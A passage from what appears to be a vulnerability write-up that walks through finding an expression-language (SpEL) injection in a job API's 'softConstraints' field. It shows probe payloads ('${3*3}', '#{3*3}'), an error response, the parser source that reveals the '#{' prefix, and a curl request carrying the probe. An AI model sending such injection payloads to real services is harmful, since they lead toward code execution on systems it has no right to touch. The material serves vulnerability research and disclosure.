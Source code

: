 | Field | Type | Label | Description |
| ----- | ---- | ----- | ----------- |
| constraints | Constraints.ConstraintsEntry | repeated | (Optional) A map of constraint name/values. If multiple constraints are given, all must be met (logical 'and'). |

And regarding `Constraints.ConstraintsEntry`:

| Field | Type | Label | Description |
| ----- | ---- | ----- | ----------- |
| key | string | optional | |
| value | string | optional | |

Ok, now we know what the expected format is:

~~~json
"softConstraints":{"constraints": {"injection here": "value"}}
~~~

### Reproducing the EL Injection

Let's try a simple EL Injection (as they appear [here](https://docs.jboss.org/hibernate/validator/5.1/reference/en-US/html/chapter-message-interpolation.html#section-interpolation-with-message-expressions)) to confirm our assumptions:

~~~json
"softConstraints":{"constraints": {"${3*3}": "value"}}
~~~

~~~json
{"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [${3*3}]', type: 'HARD''}"}
~~~

Right, we see the message we expected (`Unrecognized constraints`) but our injection appears literally, it wasn't interpolated. So something's wrong. Let's try to dig and see how interpolation is done.

If we look for the string "interpolator" in the codebase, we find an interesting class `SpELMessageInterpolator`. There, a `TemplateParserContext` is used, and if we inspect its constructor, we find the following:

~~~java
public TemplateParserContext() {
    this("#{", "}");
}
~~~

Aha, so our injections must start with `#{`. Let's try:

~~~bash
curl localhost:7001/api/v3/jobs \
    -X POST -H "Content-type: application/json" -d \
    '{
        ...
        "container": {
        ...
        "softConstraints":{"constraints": {"#{3*3}": "a"}}
        },
        ...
    }'
~~~
